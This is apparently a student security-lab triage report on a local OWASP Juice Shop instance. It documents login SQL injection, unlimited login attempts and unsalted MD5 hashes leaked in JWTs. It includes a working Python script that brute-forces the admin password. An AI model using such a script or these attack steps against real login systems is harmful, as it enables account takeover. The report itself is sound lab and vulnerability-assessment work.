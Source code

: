 # Triage Report — OWASP Juice Shop

## Scope & Asset
- Asset: OWASP Juice Shop (local lab instance)
- Image: `bkimminich/juice-shop:v19.0.0`
- Release link/date: [link](https://github.com/juice-shop/juice-shop/releases/tag/v19.0.0) — Sep 2, 2025, 10:48 PM GMT+3
- Image digest: `sha256:1ca488df14084bcaf14045dace8fd72bf4a43b59d8b4afe6472ba593392f7765`

## Environment
- Host OS: `Ubuntu 24.04.2 LTS (GNU/Linux 5.15.153.1-microsoft-standard-WSL2 x86_64)`
- Docker: `28.0.4, build b8034c0`

## Deployment Details
- Run command used: `docker run -d --name juice-shop -p 127.0.0.1:3000:3000 bkimminich/juice-shop:v19.0.0`
- Access URL: http://127.0.0.1:3000
- Network exposure: 127.0.0.1 only 
	- [X] Yes  
	- [ ] No (explain if No)

## Health Check

**API check result**:
![](https://i.ibb.co/YrcRLTQ/Pasted-image-20250919153305.png)

**Home page screenshot**:
![](https://i.ibb.co/6Js77mhc/Pasted-image-20250919153243.png)

## Surface Snapshot (Triage)
- Login/Registration visible: 
	- [X] Yes
	- [ ] No — notes: <...>
- Product listing/search present:
	- [x] Yes 
	- [ ] [ ] No — notes: <...>
- Admin or account area discoverable:
	- [x] Yes 
	- [ ] [ ] No — notes: <...>
- Client-side errors in console:
	- [ ] Yes 
	- [x] [ ] No — notes: no immediately provokable errors encountered
- Security headers (quick look — optional): `curl -I http://127.0.0.1:3000` → CSP/HSTS present?
	- [ ] Yes 
	- [x] [ ] No — notes: CSP/HSTS headers are not present

## Risks Observed (Top 3)

### Top Priority Risk: direct data substitution into login SQL request

> The `/rest/user/login` endpoint lacks query parametrization, leading to susceptibility to SQL injections, which grants an attacker access to any account in the system if the corresponding username is known.

**SQL injection on the login form (using an incorrect password)**:
![](https://i.ibb.co/r2yJhMwK/Pasted-image-20251008182653.png)

**The injection result**:
![](https://i.ibb.co/jY1g8M7/Pasted-image-20251008182629.png)

### Second Priority Risk: login bruteforce susceptibility

> The `/rest/user/login` endpoint does not introduce any timeout or attempt limits, enabling an attacker to quickly perform online bruteforce using common passwords for any account including the administrator.

**An attack script**:
```python
# bruteforce.py
import requests

with open('/home/control/DevSecOpsLab1/passwords.txt') as f:
    for password in f:
        password = password.strip()
        resp = requests.post(
            'http://127.0.0.1:3000/rest/user/login',
            json={"email": "admin@juice-sh.op", "password": password}
        )
        if resp.status_code == 200 or 'authentication' in resp.text:
            print(f"Found: {password}")
            break
        print(f"Tried: {password}")
```

**The attack result**:
![](https://i.ibb.co/Hftj3VC5/Pasted-image-20251008182251.png)

**Admin account theft verification**:
![](https://i.ibb.co/Pz5Hq55p/Pasted-image-20251008174015.png)

### Third Priority Risk: insecure password containment

> The system stores user passwords as raw MD5 hashes, enabling the attackers to reverse engineer user passwords with an MD5 rainbow table if the database leak occurs or an (expired) JWT token of a user gets stolen.

**Assume a JWT token (active or expired) is stolen**:
![](https://i.ibb.co/Ldry3McP/Pasted-image-20251008164142.png)

**The payload of the JWT token contains raw MD5 password hash**:
![](https://i.ibb.co/Fkp52fyd/Pasted-image-20251008164214.png)

**An online rainbow table can be used to reverse engineer the password**:
![](https://i.ibb.co/fGCRt6nJ/Pasted-image-20251008164034.png)
